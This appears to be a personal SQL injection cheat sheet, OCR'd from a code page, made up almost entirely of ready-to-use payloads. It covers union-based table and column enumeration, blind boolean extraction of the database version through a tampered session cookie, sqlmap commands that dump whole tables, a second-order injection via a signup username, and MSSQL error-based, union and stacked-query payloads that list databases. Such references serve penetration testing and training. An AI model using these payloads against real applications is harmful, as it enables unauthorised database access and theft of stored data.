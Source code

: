 ```Python
' union select null,null,table_name from information_schema.tables#
```
```Python
' union select null,null,<COLUMN> from <TABLE>#
```
**Column types must match in union select.**
```Python
' union select null(int),1,null,null from <table>#
```
[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
### Blind
**manual logical value extraction**
- Compare results against passed char, if response does not change, we have a valid char
```Python
Cookie: session=2345234r346326sdfsg' and substring((select version()), 1, 1) = '7'#
```
```Python
Cookie: session=2345234r346326sdfsg' and substring((select version()), 1, 2) = '7.'#
Cookie: session=2345234r346326sdfsg' and substring((select version()), 1, 3) = '7.0'#
Cookie: session=2345234r346326sdfsg' and substring((select version()), 1, 5) = '7.0.3'#
```
**sqlmap**
```Python
sqlmap -r r --level=2
```
```Python
sqlmap -r r --level=2 --dump
```
```Python
sqlmap -r r --level=2 -T <TABLENAME> --dump
```
### Second-order
**Injection achieved when query is executed not at the injection point, but when the query is retrieved.**
- Signup endpoint, you signup with the user `' or 1=1-- -` and the query only returns data when you navigate to the “accounts” page after your user is created.

## MSSQL

#### **List databases**

Normal
```sql
Select name from sys.databases
```
Error based
```sql
cast((SELECT name FROM sys.databases ORDER BY name OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
Union Based
```sql
' UNION SELECT name, NULL FROM master..sysdatabases --
```
Stacked Queries
```sql
; SELECT name FROM master..sysdatabases; --
```
